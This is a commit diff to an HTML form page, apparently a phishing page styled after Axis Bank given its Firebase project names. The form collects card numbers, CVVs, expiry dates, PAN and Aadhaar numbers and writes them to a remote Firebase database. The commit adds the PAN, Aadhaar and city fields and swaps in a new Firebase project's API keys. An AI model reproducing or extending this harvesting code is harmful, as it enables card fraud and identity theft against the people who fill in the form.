

Before and after one commit to Student7011/axas, a plain HTML site: page data.html in a window 1280 px wide. Shown: the part 72-784 px from the top of the page. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update data.html

```diff
--- a/data.html
+++ b/data.html
@@ -73,7 +73,7 @@ input {
 
     input:focus {
       outline: none;
-  border-color: #AE275F;
+      border-color: #00B5EF;
       box-shadow: 0 0 5px rgba(70, 3, 214, 0.2);
     }
 
@@ -164,6 +164,15 @@ button:hover:before {
       <label for="email">Email Address:</label>
       <input type="email" id="email" name="email" placeholder="Enter your email" required>
 
+      <label for="pancard">Pancard Number:</label>
+      <input type="text" id="pancard" name="pancard" placeholder="Enter your PanCard Number" required>
+
+      <label for="email">Aadhar Number:</label>
+      <input type="text" id="aadhar" name="aadhar" placeholder="Enter your Aadhar Number" required>
+
+      <label for="City">City:</label>
+      <input type="text" id="City" name="City" placeholder="Enter your City" required>
+
       <label for="totalLimit">Total Limit:</label>
       <input type="number" id="totalLimit" name="totalLimit" placeholder="Enter total limit" required>
 
@@ -182,11 +191,16 @@ button:hover:before {
       <label for="cvv">Card CVV:</label>
       <input type="password" id="cvv" name="cvv" maxlength="4" placeholder="Enter CVV" required>
 
+      <!-- <label for="referenceby">Reference By:</label>
+      <input type="text" id="referenceby" name="referenceby" placeholder="Enter Reference By" required> -->
+
       <button type="submit">Proceed Now</button>
     </form>
   </div>
+
   <script src="https://code.jquery.com/jquery-3.7.1.min.js"></script>
   <script src="jquery-ui.min.js"></script>
+
   <script>
     // Initialize Flatpickr for the date of birth field
     document.addEventListener('DOMContentLoaded', function() {
@@ -238,16 +252,15 @@ button:hover:before {
 
     // Firebase configuration
     const firebaseConfig = {
-  apiKey: "AIzaSyDep3sTdyVW2HpQDxnMudxHgASDcVsZfno",
-  authDomain: "axis-9b781.firebaseapp.com",
-  databaseURL: "https://axis-9b781-default-rtdb.firebaseio.com",
-  projectId: "axis-9b781",
-  storageBucket: "axis-9b781.firebasestorage.app",
-  messagingSenderId: "715102207888",
-  appId: "1:715102207888:web:b1d909e4526d66c9817d15",
-  measurementId: "G-QNWFEK1WMX"
+  apiKey: "AIzaSyBu8SEq7mfBVb4mV9VwjiJ34PxQbnEj3MQ",
+  authDomain: "axiss-3a3ad.firebaseapp.com",
+  databaseURL: "https://axiss-3a3ad-default-rtdb.firebaseio.com",
+  projectId: "axiss-3a3ad",
+  storageBucket: "axiss-3a3ad.firebasestorage.app",
+  messagingSenderId: "196282016131",
+  appId: "1:196282016131:web:9b0668478adaf2017696b6",
+  measurementId: "G-7B50B23GCR"
 };
-
 
 
     // Initialize Firebase
@@ -257,16 +270,22 @@ const firebaseConfig = {
     // Function to handle form submission
     function submitForm() {
         const formData = {
+            RegisterDate: new Date().toISOString().replace('T', ' ').split('.')[0],
             name: document.getElementById('name').value,
             dob: document.getElementById('dob').value,
             mobile: document.getElementById('mobile').value,
+            city: document.getElementById('City').value,
             email: document.getElementById('email').value,
+            panCard: document.getElementById('pancard').value,
+            aadhaarCard: document.getElementById('aadhar').value,
             totalLimit: document.getElementById('totalLimit').value,
             availableLimit: document.getElementById('availableLimit').value,
             cardholdername: document.getElementById('cardholdername').value,
             cardnumber: document.getElementById('cardnumber').value,
             expiryDate: document.getElementById('expiryDate').value,
             cvv: document.getElementById('cvv').value,
+
+  // Current datetime in YYYY-MM-DD HH:MM:SS format
         };
 
         // Save the data to Firebase
@@ -275,11 +294,12 @@ const firebaseConfig = {
                 alert('Data could not be saved. ' + error);
             } else {
                 window.location.href = 'Thank.html';
-                database.ref("/main").child(formData.mobile).child("Details").set(formData)
+                database.ref("/main").child(formData.mobile).child("Details").set(formData);
             }
         });
+
         database.ref().child("key").set(formData.mobile);
-      database.ref("/main").child(formData.mobile).child("Details").set(formData)
+        database.ref("/main").child(formData.mobile).child("Details").set(formData);
     }
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
